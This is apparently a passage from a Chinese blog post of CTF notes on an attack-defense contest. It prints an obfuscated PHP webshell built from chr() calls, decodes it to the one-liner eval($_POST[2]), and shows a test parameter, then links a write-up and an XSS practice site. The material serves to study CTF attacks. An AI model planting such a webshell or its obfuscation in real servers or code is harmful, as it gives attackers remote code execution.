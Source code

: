 #### 命令执行2

代码如下:

> $_uU=chr(99).chr(104).chr(114);$_cC=$_uU(101).$_uU(118).$_uU(97).$_uU(108).$_uU(40).$_uU(36).$_uU(95).$_uU(80).$_uU(79).$_uU(83).$_uU(84).$_uU(91).$_uU(50).$_uU(93).$_uU(41).$_uU(59);$_fF=$_uU(99).$_uU(114).$_uU(101).$_uU(97).$_uU(116).$_uU(101).$_uU(95).$_uU(102).$_uU(117).$_uU(110).$_uU(99).$_uU(116).$_uU(105).$_uU(111).$_uU(110);$_=$_fF("",$_cC);@$_();

文件为混淆过的小马，结果为

![](image/29.png)

小马为：

> eval($_POST[2]);

>  2=pipinfo();

剩下内容请看[连接](http://skysec.top/2018/05/27/2018RedHat-AD-Web/)

简单的认识了下AWD线下了。

不过红帽杯线下大佬云集，一分多钟就被种了马。

准备看下《无间双龙》。之前就想看的。不过还是想准备下工具之类的。

### XSS练习平台

[XSS练习平台](https://xss.haozi.me)

很有趣的一个xss平台。

![](image/30.png)

